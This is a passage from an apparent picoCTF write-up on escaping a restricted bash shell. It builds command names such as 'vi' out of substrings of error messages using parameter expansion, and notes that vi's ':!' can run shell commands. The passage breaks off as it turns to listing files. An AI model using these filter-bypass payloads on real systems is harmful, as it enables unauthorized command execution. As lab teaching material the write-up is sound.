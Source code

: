 Now looking up the last command returns the error message.

```sh
echo $_
```

```
bash: ((: 1/0: division by 0 (error token is "0")
```

## Triggering a text editor

We can follow up with a substring from this error. The syntax for picking a substring in bash is
a bit different from other languages. It is of the form

```sh
${variable:offset:length}
```

- The `variable`, in our case `_`, is what stores the original string
- `offset` is where the substring begins
- `length` is how far the substring goes from the start

In fact, the di**vi**sion error message contains the substring `vi` which we could use to spin up the `vi` text editor.
To get that substring, we find its index. Let's use the index method in python for this.

```python
'bash: ((: 1/0: division by 0 (error token is "0")'.index('vi')
```

This gives us 17. Knowing that `vi` is 2 letters, we can build the following payload.

```sh
${_:17:2}
```

Since this payload depends on the error before it, we must detonate that first.
We will run the following on the picoCTF machine:

```sh
"$(((1/0)) 2>&1)"
${_:17:2}
```

```
bash: bash: ((: 1/0: division by 0 (error token is "0"): No such file or directory
bash: vi: command not found
```

Looks like one of the most ubiquitous text editors isn't available on this machine!

If we were to successfully launch `vi`, we could type the sequence `:!` followed
by a command to execute it in a shell.

## Getting a lay of the land

We can still gather letters from other error messages. Let's take a look around
to get a feel for where the flag might be. To list the contents of the current
directory, we need to run the `ls` command.
